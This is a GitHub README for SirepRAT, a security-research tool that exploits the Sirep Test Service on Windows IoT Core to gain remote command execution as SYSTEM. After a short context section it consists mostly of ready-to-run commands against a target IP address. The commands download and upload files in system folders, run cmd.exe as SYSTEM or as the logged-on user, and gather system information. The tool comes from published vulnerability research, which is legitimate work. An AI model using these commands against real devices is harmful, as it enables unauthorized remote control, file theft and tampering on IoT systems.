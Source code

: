 # SirepRAT - RCE as SYSTEM on Windows IoT Core
**SirepRAT** Features full RAT capabilities without the need of writing a real RAT malware on target.

## Context

The method is exploiting the Sirep Test Service that’s built in and running on the official images offered at Microsoft’s site. This service is the client part of the HLK setup one may build in order to perform driver/hardware tests on the IoT device. It serves the Sirep/WPCon/TShell protocol.

We broke down the Sirep/WPCon protocol and demonstrated how this protocol exposes a remote command interface for attackers, that include RAT abilities such as get/put arbitrary files on arbitrary locations and obtain system information.

Based on the findings we have extracted from this research about the service and protocol, we built a simple python tool that allows exploiting them using the different supported commands. We called it SirepRAT.

It features an easy and intuitive user interface for sending commands to a Windows IoT Core target. It works on any cable-connected device running Windows IoT Core with an official Microsoft image.


## Slides and White Paper

Slides and research White Paper are [**in the docs folder**](https://github.com/SafeBreach-Labs/SirepRAT/tree/master/docs)

## Setup
```bash
pip install -r requirements.txt
```

## Usage

#### Download File
```bash
python SirepRAT.py 192.168.3.17 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
```

#### Upload File
```bash
python SirepRAT.py 192.168.3.17 PutFileOnDevice --remote_path "C:\Windows\System32\uploaded.txt" --data "Hello IoT world!"
```

#### Run Arbitrary Program
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"
```  
With arguments, impersonated as the currently logged on user:
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```  
(Try to run it without the _as_logged_on_user_ flag to demonstrate the SYSTEM execution capability)

#### Get System Information
```bash
python SirepRAT.py 192.168.3.17 GetSystemInformationFromDevice
```

#### Get File Information
```bash
python SirepRAT.py 192.168.3.17 GetFileInformationFromDevice --remote_path "C:\Windows\System32\ntoskrnl.exe"
```

#### See help for full details:
```bash
python SirepRAT.py --help
```

## Authors

**Dor Azouri** ([@bemikre](https://twitter.com/bemikre))

## License

[BSD 3](https://github.com/SafeBreach-Labs/AltFS/blob/master/LICENSE) - clause "New" or "Revised" License
